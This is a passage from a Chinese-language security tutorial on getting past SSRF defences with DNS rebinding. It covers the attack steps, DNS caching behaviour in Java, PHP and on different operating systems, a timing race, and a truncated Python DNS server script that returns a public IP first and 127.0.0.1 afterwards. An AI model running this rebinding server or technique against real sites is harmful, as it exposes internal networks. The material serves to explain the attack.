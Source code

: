 
这里利用方法如下：  
  

1\. 在网站 SSRF 漏洞处访问精心构造的域名。网站第一次解析域名，获取到的IP地址为A；  
2\. 经过网站后端服务器的检查，判定此IP为合法IP。  
3\. 网站获取URL对应的资源（在一次网络请求中，先根据域名服务器获取IP地址，再向IP地址请求资源），第二次解析域名。此时已经过了ttl的时间，解析记录缓存IP被删除。第二次解析到的域名为被修改后的 IP 即为内网IP B；  
4\. 攻击者访问到了内网IP。   

  

当然，上述情况是最理想的情况，在不同的语言，不同服务器中也存在差异

   
1\. java中DNS请求成功的话默认缓存30s(字段为networkaddress.cache.ttl，默认情况下没有设置)，失败的默认缓存10s。（缓存时间在 /Library/Java/JavaVirtualMachines/jdk /Contents/Home/jre/lib/security/java.security 中配置）  
2\. 在php中则默认没有缓存。  
3\. Linux默认不会进行DNS缓存，mac和windows会缓存(所以复现的时候不要在mac、windows上尝试)  
4\. 有些公共DNS服务器，比如114.114.114.114还是会把记录进行缓存，但是8.8.8.8是严格按照DNS协议去管理缓存的，如果设置TTL为0，则不会进行缓存。   

  

在传统的ssrf修复方案中，由于java会存在默认的dns缓存，所以一般认为java不存在DNS rebinding问题。但是试想这么一个场景，如果刚刚好到了DNS缓存时间，此时更新DNS缓存，那些已经过了SSRF Check而又没有正式发起业务请求的request，是否使用的是新的DNS解析结果。其实理论上只要在发起第一次请求后等到30秒之前的时候再请求即可，但为了保证效果，可以在28s左右，开始以一个较短的时间间隔去发送请求，以达到时间竞争的效果。相关示例代码可参考附录三。  
  

Dns rebinding常见方案除了自建dns服务器之外，还可以通过绑定两个A记录，一个绑定外网ip，一个绑定内网ip。当然这种情况访问顺序是随机的，无法保证成功率。  
  

自建dns服务器需要将域名的dns服务指向自己的vps，然后在vps上运行dns\_server脚本，dns\_server.py内容如下   

  

```python
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server


record={}
class DynamicResolver(object):
    def _doDynamicResponse(self, query):
        name = query.name.name
        if name not in record or record[name]<1:
            # 随意一个 IP，绕过检查即可
            ip="104.160.43.154"
        else:
            ip="127.0.0.1"
        if name not in record:
            record[name]=0
        record[name]+=1
        print name+" ===> "+ip
        answer = dns.RRHeader(
            name=name,
            type=dns.A,
            cls=dns.IN,
            ttl=0,
            payload=dns.Record_A(address=b'%s'%ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional
    def query(self, query, timeout=None):
        return defer.succeed(self._doDynamicResponse(query))

def main():
    factory = server.DNSServerFactory(
        clients=[DynamicResolver(), client.Resolver(resolv='/etc/resolv.conf')]
    )
    protocol = dns.DNSDatagramProtocol(controller=factory)
```